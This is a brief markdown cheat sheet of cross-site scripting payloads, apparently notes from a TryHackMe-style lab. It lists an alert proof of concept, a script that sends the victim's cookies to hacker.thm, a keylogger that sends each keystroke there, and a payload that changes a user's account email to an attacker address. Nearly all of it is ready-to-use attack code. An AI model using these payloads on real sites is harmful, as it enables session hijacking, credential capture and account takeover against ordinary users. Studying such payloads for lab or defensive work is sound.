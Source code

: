 # Cross-Site Scripting

## XSS Payloads 

### PoC

- `<script>alert('XSS');</script>`

### Session Stealing

- `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`

### Key Logger

- `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

### Business Logic

- `<script>user.changeEmail('attacker@hacker.thm');</script>`
